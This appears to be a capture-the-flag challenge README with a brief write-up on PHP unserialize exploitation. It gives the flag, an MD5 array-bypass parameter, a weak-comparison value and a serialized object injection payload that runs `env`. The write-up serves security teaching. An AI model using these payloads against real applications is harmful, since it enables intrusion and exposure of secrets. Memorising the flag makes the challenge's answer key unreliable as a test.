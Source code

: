 # Description
get the shell to hack the earth

# Difficulty
⭐⭐⭐⭐

# Flag
`mayctf{N0w_Y0u_m@y_Know_wh@t_1s_unserialize!}`

# Hint (Optional)
可能你需要些反序列化的知识

# WriteUp
简单审计源代码
## 考点
 - 利用数组绕过MD5验证 `addr1[]=1&addr2[]=2`
 - 弱类型比较`key=0`
 - 简单的类知识`__construct` 和 `__toString`魔术方法
 - 简单的构造序列化数据 `O:5:"Admin":1:{s:4:"name";O:5:"Shell":1:{s:3:"cmd";s:3:"env";}}` 由`genSerial.php`生成